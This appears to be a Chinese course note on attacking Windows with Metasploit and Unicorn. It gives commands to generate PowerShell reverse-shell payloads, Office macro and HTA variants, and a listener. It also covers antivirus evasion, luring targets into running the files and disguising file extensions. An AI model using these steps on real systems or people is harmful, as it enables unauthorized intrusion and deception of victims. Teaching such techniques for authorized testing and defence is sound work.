

# 课程 P1：使用 MSF 与 Unicorn（独角兽）进行 Windows 渗透测试 🖥️🔓


在本节课中，我们将学习如何利用 Metasploit Framework (MSF) 和 Unicorn（独角兽）工具对 Windows 系统进行基础的渗透测试。课程内容将涵盖工具的基本介绍、环境搭建以及几种常见的攻击向量演示。



---

## 概述 📋

本次分享将介绍一个简单的技术：使用 MSF 和 Unicorn 工具对 Windows 系统进行攻击。MSF 是一个开源的渗透测试框架，在黑客工具中排名第一，是渗透测试的强大武器。Unicorn 则是一个利用 PowerShell 生成 payload 的工具，常用于绕过杀毒软件。

---


## MSF 框架简介 🛠️


上一节我们概述了本次课程的目标，本节中我们来详细了解一下核心工具 MSF。


MSF 的全称是 **Metasploit Framework**。它是一个开源的渗透测试框架，提供了大量漏洞利用模块、payload 生成器和辅助工具。其强大之处在于能够自动化许多渗透测试步骤。

**核心概念公式**：
`渗透测试 ≈ 漏洞利用 + Payload 交付 + 权限维持`


MSF 在学校等旧系统环境中尤其有效，可以轻松利用已知漏洞获取系统高权限。

---


## Unicorn（独角兽）工具介绍 🦄

了解了攻击框架后，我们来看看用于生成特定 payload 的工具 Unicorn。

Unicorn 是一个简单的 Python 工具，用于生成基于 PowerShell 的 payload。由于 PowerShell 是 Windows 系统自带的强大脚本环境，利用其生成的攻击代码往往能有效绕过安全软件的检测。


以下是获取和运行 Unicorn 的基本步骤：


1.  从 GitHub 克隆项目仓库。
2.  进入项目目录，主要文件是一个 Python 脚本。
3.  运行该脚本，它会显示一个独角兽图案并提示使用方法。


**基本运行命令示例**：
```bash
git clone [Unicorn项目地址]
cd unicorn
python unicorn.py
```


---


## 基础攻击演示：生成与执行 Payload ⚙️

掌握了工具的基本信息后，我们进入实战环节，看看如何生成一个基础的反弹 Shell payload。

以下是生成一个指向攻击者机器的 PowerShell payload 的步骤：


1.  使用 Unicorn 指定本机 IP 和监听端口生成 payload。
    ```bash
    python unicorn.py [你的IP] [端口] reverse
    ```
2.  执行后，工具会生成两个关键文件：一个 PowerShell 脚本文件（`.txt` 或 `.ps1`）和一个 Metasploit 资源文件（`.rc`）。
3.  在 MSF 控制台中加载生成的 `.rc` 文件，启动监听。
    ```bash
    msfconsole -r [生成的rc文件]
    ```
4.  将生成的 PowerShell 脚本在目标 Windows 机器上执行。
5.  执行成功后，攻击者的 MSF 控制台会收到一个反弹回来的 Shell 会话，从而获得目标系统的控制权。


这种方法利用了系统自带的 PowerShell，因此具有良好的免杀效果。

---

## 高级攻击向量：Office 宏与 HTA 文件 🎣

基础攻击演示了直接执行脚本的方式，但在实际场景中，我们需要更隐蔽的攻击方法。本节我们来看看两种更“猥琐”的思路：利用 Office 宏和 HTA 文件。

### 利用 Office 宏文档

Unicorn 可以生成嵌入 VBA 宏的代码。攻击者可以将此代码放入 Word 或 Excel 文档中。


以下是利用 Office 宏进行攻击的步骤：


1.  使用 Unicorn 生成宏代码。
    ```bash
    python unicorn.py [你的IP] [端口] macro
    ```
2.  将生成的宏代码复制到 Office 文档的 VBA 编辑器中。
3.  将包含宏的文档发送给目标。当目标启用宏并打开文档时，payload 便会执行，攻击者获得 Shell。
4.  此方法对 WPS Office 无效，因为它无法调用 PowerShell。


### 利用 HTA 应用程序

HTA 是 HTML 应用程序，可以在 Windows 上直接运行，具有较大的欺骗性。


以下是利用 HTA 进行攻击的步骤：

1.  使用 Unicorn 生成 HTA 攻击文件。
    ```bash
    python unicorn.py [你的IP] [端口] hta
    ```
2.  工具会生成一个包含 HTA 文件的文件夹。
3.  攻击者可以将此 HTA 文件上传到服务器，诱使目标点击链接下载并运行。
4.  为了增强欺骗性，可以修改 HTA 文件的后缀名（例如改为 `.exe` 或在文件名中插入特殊字符），使其看起来像一个普通可执行文件。
5.  目标运行该文件后，攻击者同样能获得 Shell 会话。

这两种方法都能有效绕过常见杀毒软件的检测。


---


## 总结 📝

本节课中我们一起学习了使用 MSF 框架和 Unicorn 工具对 Windows 系统进行渗透测试的基本流程。

我们首先介绍了强大的渗透测试框架 **Metasploit (MSF)**。然后，我们学习了 **Unicorn** 工具如何利用系统自带的 PowerShell 生成免杀 payload。接着，我们演示了基础的**直接执行 PowerShell payload** 的攻击方式。最后，我们探讨了两种更隐蔽的高级攻击向量：通过 **Office 宏文档** 和 **HTA 应用程序** 来投递并执行 payload，从而绕过防御。


这些技术展示了如何结合现有工具和系统特性进行有效的安全测试，也为防御者提供了需要警惕的攻击思路。